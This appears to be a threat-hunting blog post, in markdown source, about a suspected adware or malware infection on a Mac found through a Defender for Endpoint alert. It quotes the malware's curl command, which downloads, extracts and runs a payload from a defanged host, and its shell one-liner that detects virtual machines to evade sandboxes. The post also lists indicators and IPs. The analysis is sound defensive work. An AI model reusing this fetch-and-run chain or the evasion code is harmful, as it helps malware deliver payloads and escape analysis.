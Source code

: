 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for the sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain as it is part of the OS (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes, for example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "451CEB63-C438-40C3-899F-0BE4F425F074"?
here again, for simplicity I focus on one of these odd looking processes, there are a bucket load of them.

This executable runs a download via curl of some additional code from [external](https://www.virustotal.com/gui/url/602823beeb1e3e8c4b09c1c4defeb5c6381620e6a6b9be9c3120df12c21c0f0e) and extracts it to "/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

After that the archive helpexecd.tgz is extracted to /var/tmp/helpexecd/ and executed.
This new process helpexecd then runs the following command (amongst other things)
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
{% include mermaid_start.liquid %}
flowchart TD;
kernel_task --> launchd;
launchd --> xpcproxy;
xpcproxy --> |run| apadecoded;
apadecoded --> |run| 451CEB63-C438-40C3-899F-0BE4F425F074;
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
apadecoded --> |run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> curl;
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134;
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd;
helpexecd --> 35.160.226.50;
helpexecd --> 34.217.226.241;
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess
